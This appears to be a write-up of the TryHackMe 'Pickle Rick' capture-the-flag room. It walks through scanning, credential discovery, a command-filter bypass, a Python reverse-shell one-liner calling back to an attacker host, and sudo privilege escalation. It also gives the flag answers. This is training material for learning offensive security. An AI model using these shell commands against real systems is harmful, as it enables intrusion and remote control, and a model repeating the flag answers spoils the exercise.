





## TryHackme: Pickle Rick Writeup
Pickle Rick CTF is a beginner friendly room on TryHackme, Theme based on Rick and Morty requires you to exploit a webserver to find 3 ingredients that will help Rick make his potion to transform himself back into a human from a pickle.

```bash
$ sudo nmap -sS -sC -sV MACHINE_IP
```



we found a username on source page: ```R1ckRul3s```

## Gobuster scan

```bash
$ gobuster dir -u http://MACHINE_IP -w /wordlist-dir -x php,txt
```



## robots.txt



string: ```Wubbalubbadubdub```

## login to portal


```sql
creds found
username: R1ckRul3s
password: Wubbalubbadubdub
```


### we have restrictions on commands we run 
We can bypass disabled commands, use ```c\at``` or ```less``` instead of ```cat``` 

```bash
c\at Sup3rS3cretPickl3Ingred.txt
mr. meeseek hair
```


## Reverse Shell
setup a netcat listener and put python3 Reverse shell command in panel

```bash
$ nc -nvlp 4242
```

```python3
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("YOUR_MACHINE_IP",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

Second Ingredient found in /home/rick Directory 

```bash
$ cat second\ ingredients
1 jerry tear
```

## Privilege escalation
user www-data can run (ALL) commands as root without password



```bash
www-data@ip-10-10-195-52:/home/ubuntu$ sudo /bin/bash -p
root@ip-10-10-195-52:/home/ubuntu# whoami
root
```


we are root now 

```bash
root@ip-10-10-203-150:~# cat 3rd.txt
3rd ingredients: fleeb juice
```

## Ingredients
First Ingredient: ```mr. meeseek hair```

Second Ingredient: ```1 jerry tear```

Third Ingredient: ```fleeb juice```
